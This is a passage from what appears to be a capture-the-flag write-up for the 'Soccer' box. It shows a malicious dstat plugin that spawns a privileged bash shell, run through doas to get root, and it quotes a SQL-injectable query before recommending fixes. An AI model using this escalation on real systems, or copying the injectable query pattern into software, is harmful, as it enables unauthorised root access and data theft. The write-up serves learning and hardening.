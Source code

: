 I created a plugin file in that directory and ran it in dstat to get root.

```bash
player@soccer:~$ cat /usr/local/share/dstat/dstat_exploit.py
import os
os.system('/usr/bin/bash -p')

player@soccer:~$ doas -u root /usr/bin/dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

root@soccer:/home/player# whoami
root

root@soccer:/home/player# cat /root/root.txt 
REDACTED
```

## Securing The Box

The first issues I found on the box were with [Tiny File Manager](https://github.com/prasathmani/tinyfilemanager). The site used the default credentials. They should have been changed before putting the app online. The code should probably not have default credentials at all. People will forget and end up with insecure sites. It would be better to force users to set their own passwords.

The site allows uploading any type of file and putting them in the web root. This is a perfect recipe to get RCE. The code allows setting an allowed list of extensions, but that is not used on this box. This list should be set to a very limited list of accepted extensions. 

And the uploaded files should not be placed in the web root. Tiny allows changing where the files are stored, but the default value and the examples are using the web root.

Next, the ticket page of the application takes user input and appends it directly to an SQL query. The code should use [prepared statements](https://en.wikipedia.org/wiki/Prepared_statement). There are no reasons not to use them.

```js
(async () => {
    try {
      const query = `Select id,username,password  FROM accounts where id = ${id}`;
      await connection.query(query, function (error, results, fields) { 
        if (error) { 
            ws.send("Ticket Doesn't Exist"); 
        } else { 
            if (results.length > 0) { 
                  ws.send("Ticket Exists") 
            } else { 
                  ws.send("Ticket Doesn't Exist") 
            } 
        } 
      }); 
    } catch (error) { 
      ws.send("Error"); 
    } 
})() 
```
